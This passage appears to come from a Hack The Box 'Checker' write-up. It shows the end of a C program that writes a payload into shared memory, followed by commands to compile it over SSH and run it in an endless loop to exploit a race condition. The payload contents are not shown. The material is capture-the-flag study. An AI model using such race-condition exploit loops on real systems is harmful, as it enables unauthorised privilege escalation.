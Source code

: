 ```c
    snprintf(shmaddr, SHM_SIZE, "%s", payload);

    // Print the content that was written to shared memory.
    printf("Shared Memory Content:\n%s\n", shmaddr);

    // Detach from the shared memory segment.
    if (shmdt(shmaddr) == -1) {  // Check if shmdt() failed
        perror("shmdt");
        exit(EXIT_FAILURE);
    }

    return 0;
}
```

Now to perform the exploitation part this are the steps

make a .c file and compile it on that ssh shell

```bash
nano pain.c
```

```bash
gcc -o pain pain.c
```

To take advantage of the Race Condition, we repeatedly execute the exploit in a loop.

```bash
while true; do ./pain; done
```

![Screenshot 2025-02-26 at 5.33.16 PM.png](/assets/Images/HTB_Checker/Screenshot_2025-02-26_at_5.33.16_PM.png)
